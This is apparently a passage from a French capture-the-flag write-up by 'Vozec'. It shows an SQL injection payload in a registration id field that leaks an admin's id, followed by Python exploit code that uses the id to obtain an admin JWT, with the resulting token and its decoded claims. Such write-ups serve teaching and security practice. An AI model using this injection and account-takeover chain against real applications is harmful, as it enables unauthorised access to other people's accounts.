 La requête forger sera donc:  
```bash
SELECT users.pseudo as username, users.id FROM users WHERE users.id = '' or users.pseudo = 'admin' -- '
```

On peut donc mettre à jour notre exploit :
```python
import random

...

def sqli(self,payload):
		user = ''.join([random.choice('bcdef') for _ in range(15)])
		pwd = user
		token = self.register(
			user = user,
			pwd  = pwd,
			id_ = payload
		)
		return user,pwd,self.info(token)

...
admin_id = exp.sqli(
	payload = "' or users.pseudo = 'admin' -- "
)[-1]
print(admin_id)
```

*Résultat*:  
```bash
{'username': 'admin', 'id': 'da20b92c-efc6-42e0-9490-3d38d8bf3e3a'}
```

## Etape 2 et 3
```python
token = exp.register(
	user = 'random_user',
	pwd  = 'random_pwd',
	id_  =  admin_id['id']
)
token = exp.register(
	user = 'admin',
	pwd  = 'admin_pwd',
)
print(token)
```


*Résultat*:  
```bash
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwc2V1ZG8iOiJhZG1pbiIsInN1YiI6ImY1YzA5YmNkLTQ4OWQtNDI4YS1iNThmLTJmZTE2MmZiNjVlNCIsImlhdCI6MTY4MzM3NjEyNSwiZXhwIjoxNjgzMzgzMzI1fQ.IueXEC1xaIIPdwJnJlONIcKBQSLnVIgiV7Ko6skn46Q
```
```bash
$ echo eyJwc2V1ZG8iOiJhZG1pbiIsInN1YiI6ImY1YzA5YmNkLTQ4OWQtNDI4YS1iNThmLTJmZTE2MmZiNjVlNCIsImlhdCI6MTY4MzM3NjEyNSwiZXhwIjoxNjgzMzgzMzI1fQ== | base64 -d
{"pseudo":"admin","sub":"f5c09bcd-489d-428a-b58f-2fe162fb65e4","iat":1683376125,"exp":1683383325}
```


[//]: <> (Wrote By Vozec 06/05/2023)